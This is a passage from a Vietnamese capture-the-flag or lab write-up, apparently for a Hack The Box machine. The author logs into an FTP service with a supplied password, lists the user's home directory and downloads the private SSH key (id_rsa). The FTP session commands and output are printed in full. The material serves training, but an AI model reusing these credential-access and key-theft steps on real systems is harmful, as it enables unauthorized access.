 Ôi vê lờ là rabbit hole :)) Chỉ còn cách là `ftp`
Đầu tiên dùng anonymous thì failed, quay lại gợi ý thì ta dùng được credential này: **`ceil:qwer1234`**

```zsh
❯ ftp 10.129.156.26
Connected to 10.129.156.26.
220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.156.26]
Name (10.129.156.26:kali): ceil
331 Password required for ceil
Password: 
230 User ceil logged in
Remote system type is UNIX.
Using binary mode to transfer files.
```

Nhưng mà không có gì
```zsh
ftp> ls -la
229 Entering Extended Passive Mode (|||44745|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 root     root         4096 Nov 10  2021 .
drwxr-xr-x   2 root     root         4096 Nov 10  2021 ..
```

Không cay cú, tôi thử với `port 2121`
```zsh
ftp> ls -la
229 Entering Extended Passive Mode (|||2209|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-------   1 ceil     ceil          294 Nov 10  2021 .bash_history
-rw-r--r--   1 ceil     ceil          220 Nov 10  2021 .bash_logout
-rw-r--r--   1 ceil     ceil         3771 Nov 10  2021 .bashrc
drwx------   2 ceil     ceil         4096 Nov 10  2021 .cache
-rw-r--r--   1 ceil     ceil          807 Nov 10  2021 .profile
drwx------   2 ceil     ceil         4096 Nov 10  2021 .ssh
-rw-------   1 ceil     ceil          759 Nov 10  2021 .viminfo
226 Transfer complete
ftp> cd .ssh
250 CWD command successful
ftp> ls -la
229 Entering Extended Passive Mode (|||29956|)
150 Opening ASCII mode data connection for file list
drwx------   2 ceil     ceil         4096 Nov 10  2021 .
drwxr-xr-x   4 ceil     ceil         4096 Nov 10  2021 ..
-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
226 Transfer complete
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||58777|)
150 Opening BINARY mode data connection for id_rsa (3381 bytes)
100% |****************************************************************************************************************|  3381      418.10 KiB/s    00:00 ETA
226 Transfer complete
3381 bytes received in 00:00 (11.71 KiB/s)
```

